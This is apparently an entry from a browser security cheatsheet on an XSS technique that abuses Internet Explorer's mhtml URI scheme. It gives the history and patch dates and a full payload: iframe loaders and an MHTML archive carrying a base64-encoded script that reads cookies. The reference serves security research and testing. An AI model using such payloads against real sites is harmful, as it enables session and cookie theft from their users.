 *   firefox latest

*   chrome 3.0

*   chrome latest

*   safari 3.0

*   safari latest

*   xss

*   tagname
*   internet explorer
*   opera
*   firefox
*   chrome
*   safari
*   parsing
*   breaking
*   obfuscation
*   closing tag

*   [`sla.ckers.org/forum/read.php?2,15812,28148#msg-28148`](http://sla.ckers.org/forum/read.php?2,15812,28148#msg-28148)

*   #134

reporter：LeverOne, wpulog

### JavaScript execution via MHTML-scheme#96test

This example used the ability to convert the file with any conent type into a web archive using mhtml URI scheme to run JavaScript. For the first time this feature was discovered by Stepanishchev E. in 2006 and became known among web developers as an alternative to data URI for IE6-7\. In 2007, Hasegawa Y. independently proposed a way to use this mhtml feature for XSS. Followed fix was incomplete because it doesn't take into account the possibility of addressing to the contents of the archive using "!value". This possibility as well as the possibility to access from the archive contents to a host domain are used in the example below. Using this vector all sites that do not contain two new lines in the source code and allows users to insert new line were vulnerable - as well as all sites that allow users to upload images without post-upload conversion etc. A link to this web archives could be specified via <IFRAME> or location.href and comparable. This example was published in June 2010, fix released in April 2011\. The mhtml URI scheme doesn't determine the content type now, but archive contents still has access to the host domain.

```
<iframe src=mhtml:http://html5sec.org/test.html!xss.html></iframe> <iframe src=mhtml:http://html5sec.org/test.gif!xss.html></iframe>``<html> <body> <b>some content without two new line \n\n</b> Content-Type: multipart/related; boundary="******"<b>some content without two new line</b> --****** Content-Location: xss.html Content-Transfer-Encoding: base64 PGlmcmFtZSBuYW1lPWxvIHN0eWxlPWRpc3BsYXk6bm9uZT48L2lmcmFtZT4NCjxzY3JpcHQ+DQp1 cmw9bG9jYXRpb24uaHJlZjtkb2N1bWVudC5nZXRFbGVtZW50c0J5TmFtZSgnbG8nKVswXS5zcmM9 dXJsLnN1YnN0cmluZyg2LHVybC5pbmRleE9mKCcvJywxNSkpO3NldFRpbWVvdXQoImFsZXJ0KGZy YW1lc1snbG8nXS5kb2N1bWVudC5jb29raWUpIiwyMDAwKTsNCjwvc2NyaXB0PiAgICAg --******-- </body> </html>crossdomain: 1path: [`html5sec.org/test.html`](http://html5sec.org/test.html)name: test.html 
```

*   internet explorer 5.0
*   internet explorer 10.0
